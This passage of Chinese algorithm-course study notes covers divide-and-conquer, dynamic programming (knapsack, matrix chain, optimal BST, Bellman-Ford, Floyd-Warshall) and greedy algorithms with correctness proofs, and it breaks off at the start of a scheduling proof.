- 最大子序列和完全在 \(A[mid+1,high]\) 中，即 \(mid+1 \leqslant i \leqslant j \leqslant high\)；
- 最大子序列和跨越 \(mid\) 两边，即 \(low \leqslant i \leqslant mid < j \leqslant high\)。
所以我们的想法就是：
- 分治：将原数组平分为两半 \(A[low,mid]\) 和 \(A[mid+1,high]\)，然后分别对这两半求解最大子序列和；一定不能忘记递归有 base case，这里的 base case 就是数组只剩下一个元素，那就什么都不用操作，直接返回进入下一步合并阶段；
- 合并：首先我们要计算跨越 mid 两边的最大子序列和，然后和左右两半的结果比较，选择最大的作为最终结果。关键在于计算跨越 mid 两边的最大子序列和，这其实是线性的，为什么？因为这里的子序列都必须跨越 mid，所以最大子序列和就是最大的 \(A[i,mid]\) 加上最大的 \(A[mid+1,j]\)，这个只需要对 \(i,j\) 做遍历就行，所以是线性的.
那么我们得到的递推公式就是很简单的 \(T(n)=2T(n/2)+O(n)\)，所以就是 \(O(n\log n)\) 的复杂度。
归并排序与快速排序¶
有点懒得说了
归并排序就是将数组分为两部分并排好序，其中 base case 就是数组长度为1的情况，此时直接返回即可；然后将已经排好序的两个数组拼成一个大数组，这显然是线性的复杂度，利用主定理很快就能得到 \(O(n\log n)\) 的复杂度。
至于快速排序，我们先选择一个 pivot，然后首先将小于 pivot 的都放左边，大于的都放右边，这一步只需线性时间，，然后对 pivot 左右的数组递归继续排序。在 FDS 的课程中我们知道快速排序的最差情况可能到 \(O(n^2)\) 的复杂度，但在后续的随机算法一节中我们会引入随机性证明平均时间复杂度为 \(O(n\log n)\)。
最近点对问题¶

这是 PPT 上的例子，也是相当经典的应用。我们取 \(x\) 坐标的中点，将整个图分为左右两半，于是同样分为三个部分，左最近点对、右最近点对和分离最近点对（跨过中轴线的点对），根据递归的思想，我们假设已知左最近点对和右最近点对，那么关键就在于找到分离最近点对。
我们记 \(x\) 坐标的中点为 \(\bar{x}\)，记作左右两半中最近点对距离为 \(\delta\)。因为我们要找分离最近点对，于是只要考虑 \([\bar{x}-\delta, \bar{x}+\delta]\) 之间的所有点 $ q_1, q_2, \cdots, q_n $，它们按 \(y\) 坐标从小到大排序。设 \(q_i\) 的 \(y\) 坐标为 \(y_i\)，那么我们只需要从下往上检查坐标在 \([\bar{x}-\delta, \bar{x}+\delta]\) 和 \([y_i, y_i+\delta]\) 之间的长方形区域中的所有点，考察这些点是否和 \(q_i\) 有更近的点对即可。（因为我们从最下方的点开始逐一向上寻找点对，对于 \(q_i\) 下方的点我们已经在先前考虑过这些点和 \(q_i\) 是否会构成更近的点对了（同样是递归的思想），因此就不需要再向 \(q_i\) 的下方寻找了）
我们可以将这个长方形区域分为平均分割成 8 块，则每块内最多出现一个点（否则每块内两点之间的距离就不超过 \(\dfrac{\sqrt{2}}{2} \delta\) 了，这就与左右两半中最近点对距离为 \(\delta\) 相矛盾），于是对于每个 \(q_i\)，我们至多只需要向上找 7 个点即可。
实际上我们还可以把这 7 个点进一步减少：
- 例如上图中我们正在考虑的 \(q_i\) 处于右半部分，那么右半部分的点就不需要考虑了，因为右半部分的点与这一个 \(q_i\) 的距离也不会小于 \(\delta\)，于是我们只需要考虑左半部分的 4 个点即可。
-
再更进一步，我们还可以将 4 这个数字降为 3。因为我们每在左半部分放一个点(\(q_i\) 在右半部分)，那么在左半部分，以这个点为圆心半径为 \(\delta\) 的圆内不可能再有另一个点，事实上最差的情况就是有四个这样的圆心，此时这四个圆心在左半区域的四个角上（\((0,0)\), \((0, \delta)\), \((\delta, 0)\), \((\delta, \delta)\)），这时候毫无疑问的就是 \((0, 0)\) 处的点最好。
而其它情况下不可能有四个圆心，只能有三个，那么在最多三个圆心中寻找最近点对，也就只需要遍历 3 个点就足够了
动态规划¶
约 4241 个字 47 行代码 9 张图片 预计阅读时间 18 分钟
动态规划的来由
动态规划（Dynamic Programming，DP）是一种用于解决最优化问题的算法设计方法。它通过将复杂问题分解为更简单的子问题，并存储这些子问题的结果，以避免重复计算，并利用这些子问题的结果来快速求解原问题。
动态规划的基本思想是利用子问题的最优解构造出原问题的最优解。它的由来可以追溯到以下几个关键点：
-
重叠子问题：许多最优化问题可以分解成重叠的子问题，动态规划通过记录子问题的解来避免重复计算。
-
最优子结构：如果一个问题的最优解包含其子问题的最优解，则可以通过解决子问题来构造原问题的解。
-
贝尔曼方程：贝尔曼提出了一个递归关系（即贝尔曼方程），描述了如何通过子问题的解来得到原问题的解。
动态规划的引入——爬楼梯问题¶
爬楼梯问题
假设你正在爬楼梯。需要爬n阶你才能到达楼顶。每次你可以爬 1 或 2 级台阶，求有多少种不同的方法爬到楼顶？我们要求算法在线性时间内解决这一问题。
我们可以利用中学的排列组合知识来求出这个问题，例如我们可以假设爬 2 级台阶的次数为 0，1，2...，然后计算出每种情况下的爬楼梯方法的排列数，最后再求和。但是这种方法的时间复杂度显然不是线性的，不能满足我们的要求。
我们也可以用回溯的方法来解决这个问题，但是回溯实际上就是枚举每一种可能的方法，但我们实际上并不关心具体要怎么爬，而是关心爬楼梯的方法数，同时回溯的时间复杂度显然也时远大于线性的。
这时候我们可以转换思路，假设我们已经解决了爬到第 \(i\) 级台阶的方法数，其中 \(i < n\)，我们就只需要考虑最后一步怎么爬就可以了。最后一步有爬 1 级台阶或 2 级台阶两种选择，显然，最后一步爬 1 级对应的方法数就是爬 \(n-1\) 级台阶对应的方法数，最后一步爬 2 级对应的方法数就是爬 \(n-2\) 级台阶对应的方法数两者之和就是我们爬到 \(n\) 级台阶的方法数，于是我们可以得到一个递推关系： $$ f(n) = f(n-1) + f(n-2) $$ 这就是我们常见到的斐波那契数列的递推公式，我们只需要带入初始条件 \(f(0) = f(1) = 1\) 就可以很轻松地得到爬楼梯的方法数。
但是我们知道假如直接用上面这段递归代码来解决这个问题，会出现极大量的冗余计算，同一个斐波那契数列的值会被计算多次，冗余计算次数的增长是爆炸性的，这显然是不合理的。
一个很自然的想法就是我们可以用一个数组来存储已经计算过的每一步的值，这样我们就可以避免重复计算，这是一种很常见的”空间换时间“的算法，想我们称其为“记忆化”，实际上这就是动态规划的基本思想。
换句话说，原先递归的方法实际上是一种“自顶向下” 的方法，它符合我们的直接思路：最后长度为 n 的问题需要长度为 n−1 和 n−2 的求和，那我们的代码直接利用递归计算递归式显得非常自然。但是重复的计算迫使我们放弃这种自然的想法，转而采用自底向上从小问题逐步迭代构建原问题的解法。
Summary
在爬楼梯这一简单而经典的问题中，我们通过对最后一步两种情况的分类，将整个问题的解转化为了两个子问题解的求和，即有一个从子问题的解到原问题的解的递推公式，然后我们通过记忆化的方式求解递推式。我们将上述特点抽象出来：一个问题，它的最优解可以表达为一些合适的子问题的最优解的递推关系，则我们称这一问题具有最优子结构性质（因为大问题的最优解可以直接依赖于小问题的最优解）。然后我们求解这一递推式，通过设置好 base case（这里我们也用 base case 指代最简单的情况，但注意这时不是递归了），然后通过记忆化的方法，使用迭代算法而非费时的递归算法避免冗余计算，得到一个时间复杂度令人满意的算法，这就是动态规划的基本想法。
动态规划
动态规划方法通常用来求解最优化问题（optimization problem）。这类问题可以有很多可行解，每个解都有一个值，我们希望寻找具有最优值（最小值或最大值）的解。我们称这样的解为问题的一个最优解（an optimal solution），而不是最优解（the optimal solution），因为可能有多个解都可以达到最优值。
我们通常按如下4个步骤来设计一个动态规划算法：
- 刻画一个最优解的结构特征；
- 递归地定义最优解的值；
- 计算最优解的值，通常采用自底向上的方法；
- 利用计算出的信息构造一个最优解。
步骤 1-3 是动态规划算法求解问题的基础。如果我们仅仅需要一个最优解的值，而非解本身，可以忽略步骤 4。
更精炼地来说，事实上动态规划就是为一个具有最优子结构性质（即原问题最优解可以由子问题最优解递推得到）的最优化问题，寻找一个由子问题到原问题的递推式，然后用记忆化的方法来求解。有时在最后我们需要构造出这一最优解，即执行步骤 4，这就需要我们在执行步骤 3 的过程中维护一些额外信息，以便用来构造一个最优解。
加权独立集合问题¶
问题描述¶
打家劫舍
你是一个专业的小偷，计划偷窃沿街的房屋。每间房内都藏有一定的现金，影响你偷窃的唯一制约因素就是相邻的房屋装有相互连通的防盗系统，如果两间相邻的房屋在同一晚上被小偷闯入，系统会自动报警（也就是说，不能连续偷两个相邻的房屋）。给定一个非负整数数组，代表每个房屋存放金额的数量，计算你在不触动警报装置的情况下，一夜之内能够偷窃到的最高金额数。
我们可以将这个问题抽象出来：
考虑一个无向图 G，其上所有点都在一条线上（这种图我们称其为路径图），每个点都有一个非负权重。我们称 G 的独立集合是指顶点互不相邻的子集（换句话说独立集合中不会同时包含同一条边上的两个点），然后要求解一个具有最大顶点权重和的独立集合。
Example

- 空集
- 四个单点集
- 第 1 和第 3 个点
- 第 1 和第 4 个点
- 第 2 和第 4 个点
其中最大的独立集合显然是第 2 和第 4 个点构成的集合，其权重和为 8，即小偷的最优选择是偷 2 和 4 两家，，最大收益是 8。需要注意的是，题目的假设中每个顶点都有非负权重，所以最优解的顶点应当是越多越好。
最优子结构¶
为了构建出这一问题的最优子结构，我们可以参考爬楼梯问题的思路，先考虑由 \(n\) 个点，\(n-1\) 条边构成的图 \(G(V,E)\) 的最后一个顶点 \(v_n\)，考虑这个问题的最优解，那么
-
假如 \(v_n\) 不在最优解 \(S\) 中，那么 \(G_n\) 的最优解就是子问题 \(G_{n-1}\) 的最优解。
因为如果 \(S\) 不是 \(G_{n-1}\) 的最优解，那么对于 \(G_{n-1}\) 就会存在一个比 \(S\) 更好的解 \(S^*\)。而 \(S^*\) 显然一定是 \(G_n\) 的一个可行解，把这个解直接应用到 \(G_n\) 中就会得到一个比 \(S\) 更好的结果，这和 \(S\) 是最优解是矛盾的。因此 \(S\) 就是 \(G_{n-1}\) 的最优解。
-
假如 \(v_n\) 在最优解 \(S\) 中，那么 \(G_n\) 的最优解就是子问题 \(G_{n-2}\) 的最优解。
因为 \(v_n\) 在最优解中，那么 \(v_{n-1}\) 就一定不在最优解中了，具体的分析与第一种情况类似，
通过上面的分析，我们就可以知道得到一个递推关系，假设前 \(i\) 个顶点的最优加权独立 集合的权重之和为 \(W_i\)，那么 $$ W_i =max{W_{i−1}, W_{i−2} + w_i} $$ 其中 \(i = 2, 3, \cdots, n, \quad W_0 = 0\)
接下来我们可以通过之前介绍的记忆化方法，从 base case 出发，自底向上构建出整个问题的解

很显然，这一算法的时间复杂度是O(n)，是一个非常高效的算法
解的重构¶
有时候我们可能不仅需要最优解的值，还需要最优解本身包含了哪些点，这就需要解的重构。
事实上这一问题想要重构出解非常简单，我们只需要观察上面伪代码的数组 A 给我们留下的线索，自顶向下一步步推断当前图中的最后一个点是否在最优解中。

背包问题¶
背包问题是一个最最经典的动态规划问题，我们这里首先介绍最基础的背包问题，即0-1背包问题。
背包问题
我们有n个物品，每个物品的重量为si，价值为vi，我们有一个容量为C 的背包，我们希望找到一个最优的装载方案，使得背包中的物品总价值最大。
这一问题的特点是每个物品要么不放进包里，要么完整的1个放进去，因此称为0-1背包问题。
最优子结构¶
背包问题的最优子结构与前面两个问题有所不同。首先考虑最后一个物品是否在最优解中，根据这个情况来划分子问题：
- 如果第 \(n\) 个物品不在最优解 \(S\) 中，即最优方案排除了最后一件物品，因此它可以看成仅由前 \(n−1\) 个物品组成的子问题的一种可行解决方案，并且 \(S\) 必定是这个子问题的最优解，具体的分析与加权独立问题类似。
- 如果第 \(n\) 个物品在最优解 \(S\) 中，这种情况只有在 \(s_n \leqslant C\) 时才有意义。类似于加权独立集合问题，我们希望 \(S−\{n\}\)是前 \(n−1\) 个物品组成的子问题的最优解，但这显然是错误的！如果 \(S−\{n\}\) 就已经把 \(W\) 几乎占满，那最后 \(n\) 根本就放不进来了。因此我们需要对子问题的设置略做调整：\(S−\{n\}\) 应当是前 \(n\) 个物品在背包容量为 \(C−s_n\) 的情况下的最优解！因为我们知道 \(n\) 在解中，那么除去 \(n\) 之外的其它解的重量之和最多就是 \(C−s_n\) ，因此 \(S−\{n\}\) 应当是前 \(n\) 个物品在背包容量为 \(C−s_n\) 的情况下的可行解，并且应当是最优解，
此时的子问题不再仅仅是只由单个参数（即是第几个输入）控制，还由背包容量控制，因此我们需要一个二维的数组来存储子问题的解。我们设 \(V_{i,c}\) 表示总重量不超过 \(c\) 的前 \(i\) 件物品组成的子集的最大总价值，那么我们可以得到如下递推关系：
根据递推式，只要 \(i−1\) 的所有情况都确定了，递推就可以往 \(i\) 推进，所以 base case 需要对 \(i\) 的最小情况（即\(i = 0\)）设置好就可以了，而 \(i=0\) 时 \(V_{i,c}\) 显然是0，因为根本没有物品可以放。伪代码如下所示。
一个显然的事情是，这一算法的时间复杂度是O(nC)。

解的重构¶

降维
事实上，对于这种多维的背包问题，我们经常可以考虑这样一种优化策略：即有没有可能数组的维数可以下降，例如这里是不是一维数组就能帮我们做好所有的事情。
事实上如果不考虑解的重建是完全可以的（考虑解的重建可以参考后面矩阵乘法的方法，那样可能又要维护新的二维数组），因为事实上第 \(i\) 个物品对应的所有容量的解只依赖于第 \(i−1\) 个物品的所有容量的解，因此事实上我们的数组完全可以不用 \(i\) 这一维，每次循环对某个 \(i−1\)，算出所有容量的解，保存在只有容量这一个index的数组中，然后再算下一个 \(i\) 的所有容量的解覆盖掉前面的解。
但有一点需要注意，就是第 \(i\) 轮数组的 \(A[c]\) 会依赖于更小的 \(c\) 在 \(i−1\) 轮的解，所以如果 \(c\) 的遍历还是从小到大的，那么就可能提前把需要的 \(i−1\) 轮的解覆盖，所以我们对 \(c\) 应当从大到小遍历，这样就不会出现错误的覆盖。
矩阵乘法的计算顺序¶
矩阵乘法的计算顺序
给定 \(n\) 个矩阵 \(M_1, M_2, \cdots, M_n\)，我们要将将它们相乘，并且希望找到一个最优的计算顺序，使得计算这 \(n\) 个矩阵的乘积所需的标量乘法次数最少。
最优子结构¶
我们考虑矩阵链相乘 \(M_1 M_2 \cdots M_n\)，每个矩阵的大小为 \(r_{i−1} \times r_i\)。记 $$ M_{ij} = M_i M_{i+1} \cdots M_j $$
对于这个问题，我们不能简单地依照前面的思路来利用最后一个矩阵可能的相乘方式来划分最优解，因为这里的子问题的划分不再是线性的，而是一个树形结构。
我们可以自顶向下地考虑这个问题：对于一个完全没有任何划分的矩阵链乘法时，我们可以考虑寻找一个划分的中心 \(M_i\)，因为我们是自顶向下的思考，那么在之前的步骤中我们应当已经得到了所有的 \(M_{1i}\) 和 \(M_{i+1,n}\) 的最优乘法顺序。因此对于每一种可能的分解，总的最小时间应当等于 \(M_{1i}\) 和 \(M_{i+1,n}\) 的最小时间求和加上 \(M_{1i}\) 和 \(M_{i+1,n}\) 相乘所需的时间（即 \(r_0 r_i r_n\)），然后我们只需要从这 \(n−1\) 种可能的分解中选出开销最小的一个就可以了。
其中 \(m_{ij}\) 表示 \(M_{ij}\) 的最优乘法时间。前两项代表左右子问题的最优解，最后一项代表从子问题最优解推出大问题最优解的花销。更具体的，我们有
其中第一条是 base case，第二条是一般情况下的递推式
上面的算法的时间复杂度是 \(O(n^3)\)，其中 \(n\) 是矩阵的个数。
解的重构¶
这一问题重构解的方法如果用和前面的问题一样简单直接的挖掘方法显然会比较耗时间，因为我们每次要比较很多种可能的情况才能重构出解，所以我们需要做一些优化，优化的方法也非常自然，实际上关键就是用一个二维数组记住每个子问题
对应的最优的分点 \(k\)，然后当我们算出总问题 \(m_{1n}\) 的最优解及其对应的最优分点后，我们再找左右两半子问题的最优分点，以此类推，用中序遍历的思想将分点输出即可，只需线性时间。
最优二叉搜索树¶
最优二叉搜索树
这一问题给定如下输入：给定一列单词 $ w_1, w_2, \cdots, w_n $（它们的顺序已经按字典序排列）和它们出现的固定的概率 $ p_1, p_2, \lcdots, p_n $。问题是要以一种方法在一棵二叉查找树中安放这些单词使得总的期望查找时间最小。
在一棵二叉查找树中，访问深度 \(d\) 处（根的深度为0）的每一个元素所需要的比较次数是 \(d+1\)，因此如果 \(w_i\) 被放在深度 \(d_i\) 上，那么我们期望将 $ \sum_{i=1}^{N} p_i (1 + d_i) $ 极小化。
从 PPT 中可以看出，直接使用贪心算法或者构建一个 AVL 树不一定可行。类似于矩阵链乘法中，我们需要知道第一个分点在哪里才能构建后续的解，在这一问题中，，我们需要知道最优的根结点在哪里才能划分问题，然后我们可以得到两个子问题，然后我们可以得到最优解。
如果我们知道最优根节点\(w_k\),那么在整个问题的最优解中，由于事先已经按照字母序排好，左子树必然是 \(w_1 \cdots w_{k-1}\) 对应的最优二叉搜索树，右子树也必然是 \(w_{k+1} \cdots w_n\) 对应的最优二叉搜索树，因此我们可以得到递推关系
其中 \(p_k\) 代表 \(w_k\) 的概率，\(c_{ij}\) 代表 \(w_i \cdots w_j\) 对应的最优解。
前面第一项的意义在于，因为我们把 \(w_k\) 当作新的根节点，除了加上根节点对应的概率 \(p_k\) 之外，左右子树的深度都增加了1，因此在搜索时就需要多搜索一次，我们还需要再把它们的概率都加上一次。

上面这一个算法的时间复杂度是 \(O(n^3)\) 的，但是通过一定的方法可以优化到 \(O(n^2)\)（我不会
最短路问题再讨论¶
我们对经典的单源（即我们只考虑一个顶点出发到任意其它顶点的距离）无负边最短路问题算法——Dijkstra 算法非常熟悉，但这一问题对于带负边的问题可能给不出正确的解。负边带来的更大的问题是可能出现负环，这样即使我们有一个能求出带负边的最短路的算法，但因为事实上的最短路应当在负环中无限循环直至负无穷，所以算法也会失效。


Bellman-Ford 算法¶
对于一般的图而言，因为具有线性结构，所以定义子结构并不是很容易的事情（所以加权独立集合考虑的是路径图，这样点就有线性的先后顺序，子结构很好定义）。于是我们需要考虑一些特别的子问题、子结构定义方式。
在Bellman-Ford算法中，子问题被巧妙地定义为：对于每个顶点 \(v\)，我们考虑从源点 \(s\) 到 \(v\) 的所有路径中，最多经过 \(k\) 条边的路径的最短路径长度。
这一子问题的定义是否是合理的，取决于我们能否用最多经过 \(k−1\) 条边的路径的最短路径长度推到最多经过 \(k\) 条边的路径的最短路径（我们记为 \(P\)）的长度。显然地，我们的递推依赖于如下两种情况取最小值：
- \(P\) 还是只有 \(k−1\) 条甚至更少的边，那么直接继承子问题的解即可
-
\(P\) 有 \(k\) 条边。
设 \(P′\) 为 \(P\) 中前 \(k−1\) 条边，并且 \((w,v)\) 是其最后一次的跳跃，那么因为 \(P\) 是\(s\) 到 \(v\) 的 \(k\) 条边的最短路径，所以 \(P′\) 也是 \(s\) 到 \(w\) 的k−1条边的最短路径，否则我们能取到一个更短的 \(P′′\) 从 \(s\) 到 \(w\) ，那\(P′′\)接上 \((w,v)\) 是比 P 更短的路径，显然矛盾。
因此我们递推时只需要考虑所有能一步到达 \(v\) 的顶点 \(w_1,\cdots ,w_m\)，然后取 \(s\) 到这些 \(w_i(i=1,cdots ,m)\) 的最短路长度，再加上 \((w_i,v)\) 的长度得到 m条s到 \(v\) 的路径长度，然后取出这些长度的最小值即可。
我们记 \(D^k[s][v]\) 为从 \(s\) 到 \(v\) 的最多经过 \(k\) 条边的最短路径长度，整个图为 \(G=(V,E)\)，如果 \(a\) 到 \(b\) 有一条边，那么这条边的长度记为 \(l_{ab}\)，那么根据上面的讨论我们有递推式：
事实上我们有下一重要引理
Lemma
设起点为 \(s\)，如果对于某个 \(k \geqslant 0\)，对于所有目标顶点 \(v\) 都有 \(D^{k-1}[s][v] = D^{k+1}[s][v]\)，那么
- 对于每个 \(i \geqslant k\) 和任意的目标顶点 \(v\)，\(D^i[s][v] = D^k[s][v]\) 都成立
- 对于每个目标顶点 \(v\)，\(D^k[s][v]\) 就是 \(s\) 到 \(v\) 的最短路径长度
基于这一引理，我们可以得到如下的判断是否包含负环的定理
Theorem
输入图 \(G\) 不包含负环当且仅当 \(D^n[s][v] = D^{n+1}[s][v]\) 对所有的目标顶点 \(v\) 都成立。其中 \(n\) 是图 \(G\) 的顶点数。
如果需要重构最短路径，我们可以存下每次取 min 的时候距离最小的那个点，最后做个 traceback 即可，并且最短路径的子路径也是最短路径。以这一重建过程只需要一次遍历就可以得到所有顶点的最短路径了。
我们设输入图的顶点数为 \(n\)，边数为 \(m\)，那么 Bellman-Ford 算法的时间复杂度是 \(O(nm)\)。
Floyd-Warshall 算法¶
Floyd-Warshall 算法定义的子问题更加巧妙：
我们需要给图上的每个顶点一个编号：\(1, 2,\cdots ,n\)，我们保持记号 \(D^k[i][j]\)，但现在它的含义变成了：从点 \(i\) 出发到 \(j\) 的，只使用 \(1,2,\cdots ,k\) 作为内部顶点的（内部顶点就是除起点和终点外的其它点，即从 \(i\) 到 \(j\) 中间只能经过这些点），不包含环的最短路径长度。
- 若 \(k\) 不是 \(P\) 的内部顶点，那么最好的解就是继承 \(D^{k-1}[i][j]\)；
- 若 \(k\) 是 \(P\) 的内部顶点，那么我们可以把 \(P\) 分成两段：\(i \to k\) 和 \(k \to j\)，如图所示。即 \(P\) 的总长度就等于这两段的长度之和，即 \(D^k[i][j] = D^{k−1}[i][k] + D^{k−1}[k][j]\)

有一个值得考虑的问题是，有没有可能这两段路径纠缠起来形成一个环？如果形成负环，我们无需关心这一情况，因为我们最终会检测出来；如果是正环，那么我们能画出一个不经过 \(k\) 的更短的路径，所以这种情况也不会在最终的最短路径中出现。因此下述递推式是合理的：
接下来的问题和Bellman-Ford 算法一样，我们需要考虑如何判断是否存在负环
Theorem
图 \(G\) 包含负环当且仅当存在一个顶点 \(v\)，使得 \(D^n[v][v] < 0\)。
基于以上讨论我们可以写出 Floyd-Warshall 算法的伪代码。最 naive 的方式就是用三维数组 \(D[k][i][j]\) 表达 \(D^k[i][j]\) 的含义，那么我们首先要讨论 base case，因为我们的递推是 \(k\) 逐渐增大的过程，所以 base case 就是 \(k = 0\) 的情况，接下来我们用三层循环构建全部的解即可。
因此时间复杂度是 \(O(n^3)\)，在稠密图中，它的表现要比调用 \(n\) Bellman-Ford 算法更好。
贪心算法¶
约 5039 个字 6 张图片 预计阅读时间 20 分钟
贪心算法保证做出的每一步选择在当前情况下都是局部最优的（当然对于最优的定义可能有多种多样），。如果我们能证明这些局部最优能够构造出全局最优，那么贪心算法就是正确的。
活动选择问题¶
问题描述
- 给定一个活动集合 \(S = \{a_1, a_2, \ldots, a_n\}\)，其中每个活动 \(a_i\) 都有一个开始时间 \(s_i\) 和结束时间 \(f_i\)，且 \(0 \leqslant s_i < f_i < \infty\)。如果活动 \(a_i\) 和 \(a_j\) 满足 \(f_i \leqslant s_j\) 或 \(f_j \leqslant s_i\)，则称活动 \(a_i\) 和 \(a_j\) 是兼容的（即二者时间不会重合）。
活动选择问题就是要找到一个最大的兼容活动子集，即这个子集中所有活动相互兼容，并且活动的数量最大。
动态规划的解决方法
我们可以设计出两种动态规划的递推式来解决这一问题：
-
设 \(S_{ij}\) 表示活动 \(a_i\) 和 \(a_j\) 之间的最大兼容活动集合（开始时间在 \(a_i\) 结束之后，结束时间在 \(a_j\) 开始之前），其大小记为 \(c_{ij}\)，那么我们有 $$ c_{ij} = \max { c_{ik} + c_{kj} + 1 \mid f_i \leqslant s_k < f_k \leqslant s_j } $$
这一解法的思想更接近矩阵乘法顺序问题，我们会选择中间的最优解然后分为左右子问题递归
-
设 \(S_i\) 表示活动 \(a_1, a_2, \ldots, a_i\) 的最大兼容活动集合，其大小记为 \(c_i\)，那么我们有 $$ c_i = \max { c_{i-1}, c_{k(i)} + 1 } $$
其中 \(k(i)\) 表示在 \(1 \leqslant k \leqslant i\) 中，\(f_k \leqslant s_i\) 且 \(c_k\) 最大的 \(k\)，即不与 \(a_i\) 冲突的最晚结束的活动。这一思想更接近背包问题的思路，即我们考虑最后一个是否在解中，分成两种情况考虑。
- 上面第一种解法的时间复杂度为 \(O(n^3)\)，但是可以利用一些方法优化到 \(O(n^2)\)；第二种解法更为便捷，时间复杂度为 \(O(n^2)\)。
我们希望有一个更高效的算法，因此我们还需要新的思路，即使用贪心的思路，因为很多时候贪心只需要一个遍历即可确定出答案，所以时间上有很大的优势。
PPT 上给出了几种错误的贪心想法，这也表明了贪心并不是那么容易就能找到正确的贪心策略。我们需要不断地举反例尝试否定自己的猜想，如果觉得自己的猜想的逻辑足够严密就，可以开始尝试证明。
我们可以将各个活动按照结束时间进行排序，然后在保证不与已经选择的活动冲突的条件下，从前到后去看，选择结束时间最早的活动。这一个想法是很自然的，因为活动结束得越早，那么就越能给后面的活动安排留出余地，因此也顺理成章能让更多活动都安排进来。
下面我们需要从两个方面来证明这个贪心策略是正确的：贪心选择性质与最优子结构性质。
活动选择问题的贪心选择性质
- 考虑任意非空子问题 \(S_k\)，令 \(a_m\) 是 \(S_k\) 中结束时间最早的活动，则 \(a_m\) 在 \(S_k\) 的某个最大兼容活动子集中。
证明：
令 \(A_k\) 是 \(S_k\) 的一个最大兼容活动子集，且 \(a_j\) 是 \(A_k\) 中结束时间最早的活动。
- 若 \(a_j = a_m\)，则已经证明 \(a_m\) 在 \(S_k\) 的某个最大兼容活动子集中。
- 若 \(a_j \neq a_m\)，令集合 \(A^'_k = A_k−\{ a_j \}\cup \{a_m \}\)，即将 \(A_k\) 中的 \(a_j\) 替换为 \(a_m\)。很显然的，\(A^'_k\) 中的活动是不相交的，因为 \(A_k\) 中的活动是不相交的，而 \(a_m\) 是 \(A_k\) 中结束时间最早的活动，即 \(f_m \leqslant f_j\)，所以 \(a_m\) 不可能和 \(A_k\) 后面的活动冲突。由于 \(|A_k|=|A^'_k|\)，因此得出结论 \(A^''_k\) 也是Sk 的一个最大兼容活动子集，且它包含 \(a_m\)。
于是我们就证明了 \(a_m\) 一定在 \(S_k\) 的某个最大兼容活动子集中。
这一证明思想我们称为“交换参数法”，即我们可以假设存在一个最优选择，其中某个元素可能不在我们的贪心选择中，然后通过交换贪心选择和最优选择的元素来构造一个可行解，而这个可行解由于其中一个元素被替换为了贪心选择的元素，它不可能变得更差，因此这个构造出来的可行解一定也是一个最优解
活动选择问题的最优子结构
- 在活动选择问题中，用贪心策略选择 \(a_1\) 之后得到子问题 \(S_1\)，那么将 \(a_1\) 和子问题 \(S_1\) 的最优解合并，一定可以得到原问题的一个最优解。
证明：
使用反证法：假设 \(a_1\) 和子问题 \(S_1\) 的最优解 \(C_1\) 合并得到的解 \(C\)，不是原问题的一个最优解，同时 \(C^'\) 是原问题的一个最优解，那么我们一定有 \(|C^'| > |C|\)。
根据贪心选择性质我们知道如果我们用 \(a_1\) 替换掉 \(C^'\) 中的第一个活动，那么我们得到的解一定不会比 \(C^’\) 差，因此我们可以得到一个新的解 \(C^{'''}\)，并且 \(|C^{''''}| \geqslant |C^''| > |C|\)。
这时候如果我们把 \(C^{''}\) 除去 \(a_1\)，剩余部分 \(C^{''}_1\) 也是子问题 \(S_1\) 的一个可行解。由于 \(|C^{''}| > |C|\)，所以 \(|C^{''}_1| > |C_1|\)，这与 \(C_1\) 是子问题 \(S_1\) 的最优解矛盾，因此将 \(a_1\) 和子问题 \(S_1\) 的最优解合并得到的解，一定是原问题的一个最优解。
这样我们就证明了我们刚刚做出得贪心选择一定可以得到一个最优解，我们的贪心策略是正确的。对称地，我们也可以将所有活动按照开始时间进行排列，并且每一次都选择从后往前看不与先前冲突的活动，这样也是一个正确的贪心策略。
对于这样一个问题，很显然我们利用贪心策略选择活动的时间复杂度为 \(O(n)\)，因为我们只需要对所有活动进行一次遍历，因此解决整个问题的时间复杂度主要取决于排序的时间复杂度，通常为 \(O(n\log n)\)。
活动选择问题的变体
-
加权活动选择问题：现在每一个活动 \(a_i\) 都有一个权重 \(w_i\)，我们希望找到一个最大权重的兼容活动子集。
事实上，我们很容易举出反例说明一般的贪心算法失效，所以我们现在可以转向最开头给出的动态规划算法，只是所有的加1应当改为加权重。
-
区间调度问题：我们现在的问题不再是最大化兼容集合的大小或者权重，而是所有活动都必须举办，考虑将所有活动分配到最少的教室中，使得每个教室内的活动不冲突。
我们同样可以使用贪心算法来解决这个问题：将所有活动按照开始时间排序，设置初始教室数量为1，然后从前往后遍历。每次选择一个活动时，我们都看当前所有的教室中的活动有没有不与它冲突的（即当一个活动需要开始时，查看当前是否有空着的教室），如果有就直接放进对应的教室，如果所有教室都和这个活动冲突，就新开一个教室。

从图（a）中我们可以看到同一时间至多有三个活动同时举办，因此我们需要至少三个教室；而假如我们须要四个教室，就说明某时刻有四个活动同时进行，这是不可能的。因此最终的结果是需要三个教室。
从图（b）中我们利用贪心算法来解决这个问题，首先我们发现a、b、c三个活动同时开始，所以开始三个教室，然后把d、e分别放入不会发生冲突的c、a教室中，以此类推，最终就使用了三个教室来解决了这个问题
调度问题¶
问题描述
- 假设我们现在有 \(n\) 个任务，每个任务 \(i\) 都有一个正的完成需要的时间 \(l_i\) 和一个权重 \(w_i\)。假定我们只能按一定顺序依次执行这些任务，不能并行。
很显然的，我们有 \(n!\) 种调度方法，我们记 \(\sigma\) 为某一种调度，那么在调度 \(\sigma\) 中，任务 \(i\) 的对应的完成时间 \(Ci(\sigma)\) 就是 \(\sigma\) 中在 \(i\) 之前的所有任务长度之和加上 \(i\) 本身的长度。换句话说，在一种调度中，一个任务的完成时间就是这个任务从整个流程开始到它自己被执行完毕总共执行的时间。我们的目标是最小化加权完成时间之和：
我们要设计一个贪心算法来解决这个问题，很显然地，我们希望优先选择做权重大、时间短的任务，因此就很自然地得到了两种可能的贪心策略：
- 计算每个任务 \(i\) 的 \(w_i − l_i\)，按从大到小降序调度任务
- 计算每个任务 \(i\) 的 \(w_i / l_i\)，按从大到小降序调度任务
我们考虑一个例子：有两个任务，\(l_1=5, l_2 =2, w_1=3, w_2 =1\)，两种方法会返回不同的结果，而第二种才能返回最优解。但这只能说明第一种策略是错误的，第二种策略的正确性还需要证明。
调度问题的贪心选择性质
- 令 \(i\) 是当前 \(w_i / l_i\) 最大的任务，则在当前问题下，必一定存在一个将 \(i\) 排在首位的最优调度方式。
证明：
